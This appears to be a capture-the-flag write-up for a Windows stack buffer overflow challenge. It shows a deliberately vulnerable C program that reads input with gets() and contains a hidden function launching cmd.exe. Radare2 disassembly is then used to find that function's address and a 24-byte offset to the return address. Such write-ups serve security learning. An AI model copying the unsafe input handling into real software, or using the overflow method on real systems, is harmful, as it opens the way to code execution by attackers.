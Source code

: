 
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <ctype.h>
 
#define DEFAULT_LEN 16
 
void admin_shell(void)
{
        system("C:\\Windows\\system32\\cmd.exe");
}
 
int main(void)
{
        char buff[DEFAULT_LEN] = {0};
 
        gets(buff);
        for (int i = 0; i < DEFAULT_LEN; i++) {
                buff[i] = toupper(buff[i]);
        }
        printf("%s\n", buff);
}
```

Using radare2 to get address of admin_shell and main:

```c
app-systeme-ch72@challenge05:~$ radare2.exe ch72.exe
[0x00401ad5]> / C:\\Windows\\system32\\cmd.exe\0                                                                                                                                                                                          
Searching 28 bytes in [0x401000-0x41e000]
hits: 1                                                                                                                                                                                                                                    
0x0041b000 hit2_0 .C:\\Windows\\system32\\cmd.exe\u0000%s.
[0x00401ad5]> /c 41b000                                                                                                                                                                                                                    
0x00401003   # 5: push str.C:__Windows__system32__cmd.exe
[0x00401347]> s 0x401000                                                                                                                                                                                                                  
[0x00401000]> pd                                                                                                                                                                                                               
           ;-- section..text:
           0x00401000      55             push ebp                    ; [00] -r-x section size 76288 named .text
           0x00401001      8bec           mov ebp, esp
           0x00401003      6800b04100     push str.C:__Windows__system32__cmd.exe ; section..data ; 0x41b000 ; "C:\Windows\system32\cmd.exe"
           0x00401008      e8bf2b0000     call 0x403bcc
           0x0040100d      83c404         add esp, 4
           0x00401010      5d             pop ebp
           0x00401011      c3             ret
           0x00401012      cc             int3
           0x00401013      cc             int3
           0x00401014      cc             int3
[...]
```

/ C:\Windows\system32\cmd.exe\0 to search address of the string is 0x0041b000
<br> /c 41b000 to get all references to that address and see the instruction push at 0x00401003
<br> Next, we s main to see main code to determinate what is the size we need to overflow and overwrites the return address

```c
;-- main:
           0x00401020      55             push ebp
           0x00401021      8bec           mov ebp, esp
           0x00401023      83ec14         sub esp, 0x14
           0x00401026      c645ec00       mov byte [ebp - 0x14], 0
           0x0040102a      33c0           xor eax, eax
           0x0040102c      8945ed         mov dword [ebp - 0x13], eax
           0x0040102f      8945f1         mov dword [ebp - 0xf], eax
           0x00401032      8945f5         mov dword [ebp - 0xb], eax
           0x00401035      668945f9       mov word [ebp - 7], ax
           0x00401039      8845fb         mov byte [ebp - 5], al
           0x0040103c      8d4dec         lea ecx, [ebp - 0x14]
           0x0040103f      51             push ecx
```
At start of main code we can see the stack frame allocation. The size allocated to it is 0x14 (20) bytes. But at first instruction the main function pushes the EBP register (4 bytes). If we sum, we have 24 bytes before the return address.

Result:
![](PE_BO_1.png)






